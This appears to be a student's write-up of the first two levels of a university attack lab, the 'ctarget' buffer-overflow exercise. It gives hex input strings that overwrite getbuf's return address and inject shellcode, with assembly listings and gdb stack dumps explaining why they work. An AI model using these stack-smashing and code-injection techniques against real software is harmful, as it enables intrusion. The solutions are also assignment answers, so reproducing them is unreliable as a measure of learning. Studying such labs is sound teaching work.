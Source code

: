 * Level 1
You need to redirect the program to execute a procedure that already
exists.

~getbuf~ (the function that introduces the vulnerability by using
~get~) is called by ~test~:
#+begin_src c
  void test()
  {
      int val;
      val = getbuf();
      printf("No exploit. Getbuf returned 0x%x\n", val);
  }
#+end_src

The task consists in getting ~ctarget~ to execute ~touch1~ when
~getbuf~ executes its return statement (rather than returning to
~test~).

#+begin_src c
  void touch1()
  {
      vlevel = 1; /* Part of validation protocol */
      printf("Touch1!: You called touch1()\n");
      validate(1);
      exit(0);
  }
#+end_src

This is the address of touch1: ~00000000004017c0~.  Without looking at
the code further, I've started to add bytes of 0s in front of that
address and tried to whether it worked. After five attempts it
worked. (I've also sorted the bytes so that they are in little
endian.)

Solution:
#+begin_src
echo "00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
c0 17 40 00 00 00 00 00" | ./hex2raw | ./ctarget -q
#+end_src

(
to run gdb:
- dump the raw data into a file:
  #+begin_src shell
    echo "00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    00 00 00 00 00 00 00 00 \
    c0 17 40 00 00 00 00 00" | ./hex2raw > raw_input
  #+end_src
- xecute ~gdb ./ctarget~
- set your initial breakpoints
- execute the command ~run -q < raw_input~
(See
https://stackoverflow.com/questions/455544/how-to-load-program-reading-stdin-and-taking-parameters-in-gdb)
)

Explanation: this is the assembly code for ~getbuf~:

#+begin_src asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret
  4017be:	90                   	nop
  4017bf:	90                   	nop
#+end_src

As soon as execution enters ~getbuf~ (before executing ~sub
$0x28,%rsp~), ~%rsp~ points to --- that is, at the top of the stack
there is --- the address of the instruction which must be executed
when ~getbuf~ terminates (which happens to be ~0x0000000000401976~).
That is the value we need to change.

We can see that the first thing ~getbuf~ does is to allocate 40 bytes
in its stack frame (by decreasing the value of ~%rsp~ by 40).

Then ~gets~ is called. The first argument passed to ~gets~ is the
value of ~%rsp~. We can then reasonably guess that ~gets~ is going to
write the input it receives onto the stack, starting from its top
(lowest address).

Now if we pass to ~gets~ 40 bytes of zeros (or whatever values) + an
address of 8 bytes, then we should fill the whole 40 bytes allocated
by ~gets~ and overwrite ~0x0000000000401976~ with our new address.
* Level 2
One way to solve level 2 is to make the stack look like this right
before ~getbuf~ execute its ~ret~ instruction:
#+begin_src
(gdb) x/6gz $rsp
0x5561dca0:     0x000000005561dcb0      0x0000000000000000
0x5561dcb0:     0x4859b997fac7c748      0xc3004017ec2404c7
0x5561dcc0:     0xf4f4f4f4f4f4f400      0xf4f4f4f4f4f4f4f4
#+end_src

The top of the stack has been overwritten with the address of my
shellcode (~0x000000005561dcb0~).

This is the string I have passed to ~hex2raw~:
#+begin_src
00 00 00 00 00 00 00 00  /* 40 bytes of nothing */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
b0 dc 61 55 00 00 00 00 /* address of payload */
00 00 00 00 00 00 00 00
48 c7 c7 fa 97 b9 59    /* payload */
48 c7 04 24 ec 17 40
00
c3

/* 48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi */
/* 48 c7 04 24 ec 17 40 	movq   $0x4017ec,(%rsp) */
/* 00 */
/* c3                   	ret */
#+end_src
